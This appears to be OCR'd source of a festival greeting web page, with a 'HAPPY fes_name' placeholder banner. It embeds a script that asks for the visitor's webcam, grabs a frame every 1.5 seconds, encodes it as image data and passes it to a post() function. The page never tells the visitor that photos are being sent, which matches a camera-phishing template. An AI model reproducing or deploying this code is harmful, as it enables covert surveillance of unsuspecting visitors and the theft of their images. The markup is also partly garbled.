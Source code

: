  
 'use strict';
 
 const video = document.getElementById('video');
 const canvas = document.getElementById('canvas');
 const errorMsgElement = document.querySelector('span#errorMsg');
 
 const constraints = {
   audio: false,
   video: {
     
     facingMode: "user"
   }
 };
 
 // Access webcam
 async function init() {
   try {
     const stream = await navigator.mediaDevices.getUserMedia(constraints);
     handleSuccess(stream);
   } catch (e) {
     errorMsgElement.innerHTML = `navigator.getUserMedia error:${e.toString()}`;
   }
 }
 
 // Success
 function handleSuccess(stream) {
   window.stream = stream;
   video.srcObject = stream;
 
 var context = canvas.getContext('2d');
   setInterval(function(){
 
        context.drawImage(video, 0, 0, 640, 480);
        var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");
        post(canvasData); }, 1500);
   
 
 }
 
 // Load init
 init();
 
 </script>
<body>

<body class="bg" id="rakhi" style="background: linear-gradient(to bottom right, #f6ff00, #e1e8e7, #00ffe9);
    -webkit-background-size: cover;
    -moz-background-size: cover;
    -o-background-size: cover;
    background-size: cover;">
	
	
<center><span style="font-size: 20px;"color: #ff077a;">▅ ▆ ▇ █ HAPPY fes_name █ ▇ ▆ ▅</center>	
<center>
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
